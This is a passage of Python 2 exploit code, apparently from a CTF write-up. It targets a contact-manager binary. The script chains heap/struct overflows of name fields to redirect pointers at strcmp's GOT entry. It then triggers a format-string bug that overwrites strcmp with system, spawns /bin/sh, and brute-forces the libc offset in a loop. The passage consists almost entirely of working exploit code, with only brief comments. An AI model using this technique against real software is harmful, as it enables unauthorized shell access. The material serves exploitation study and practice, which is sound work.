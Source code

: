     trd_person_desc = bin_sh + 0x58
    print "[+] Third person's description @ ", hex(trd_person_desc)

    # Create person 2
    create_contact(r, p2, "1234", format1)

    # Overflow person 1 name into person 2 phone pointer
    payload = "\x69" * (64 + 4 + 4) + p32(sec_person_desc) + p32(strcmp_got) + p2
    edit_contact(r, p1, 1, payload)

    # Create person 3
    create_contact(r, p3, "5678", format2)

    # Overflow person 2 name into person 3 desc pointer
    payload = "\x42" * (64 + 4 + 4) + p32(trd_person_desc) + p32(strcmp_got + 2)
    edit_contact(r, p2, 1, payload)

    # Display
    # Triggers format string vuln to overwrite strcmp with system (when printing person 2)
    # Calls system by having desc pointer overwritten in person 3's desc
    try:
        display_contacts(r)
    except:
        r.close()
        return

    r.sendline("3")
    print r.recv()
    r.sendline("/bin/sh")
    print r.recv()
    try:
        r.sendline("ls")
        print r.recv()
        r.interactive()
    except:
        r.close()
        return

libc_so_6_off = -0xd060
for i in range(0xfff):
    do_sploit(libc_so_6_off - i)
{% endhighlight %}

